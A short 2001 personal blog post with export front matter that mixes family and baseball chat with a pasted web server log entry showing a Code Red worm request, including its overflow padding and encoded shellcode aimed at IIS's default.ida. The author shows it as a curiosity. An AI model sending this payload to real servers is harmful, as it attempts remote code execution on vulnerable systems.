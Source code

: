 ```yaml
---
layout: post
title: Drunk and disorderly
date: 2001-07-20 18:07:53.000000000 +02:00
categories:
- General
tags: []
status: publish
type: post
published: true
meta: {}
author:
  login: shanson
  email: papascott-wp@gmail.com
  display_name: PapaScott
  first_name: Scott
  last_name: Hanson
excerpt: !ruby/object:Hpricot::Doc
  options: {}
---
```

<p>In a back-to-the-basics action, Mama is this evening working the closing shift at one of her inner-city restaurants. I'm sure she'd appreciate some unruly customers at the Dammtor train station around midnight tonight, if you happen to be in the area.</p>
<p>I wish I could be at the Metrodome for the 4-game Mariners-Twins series this weekend.</p>
<pre>193.xxx.118.xx - - [19/Jul/2001:14:42:57 -0400] 
"GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858
%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190
%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000
%u00=a  HTTP/1.0" 404 205</pre>
<p>... just in case you're wondering what <a href="http://news.cnet.com/news/0-1003-200-6604515.html">code red</a> looks like. Then again, I'm sure most webmasters have several dozen of these in their log files.</p>
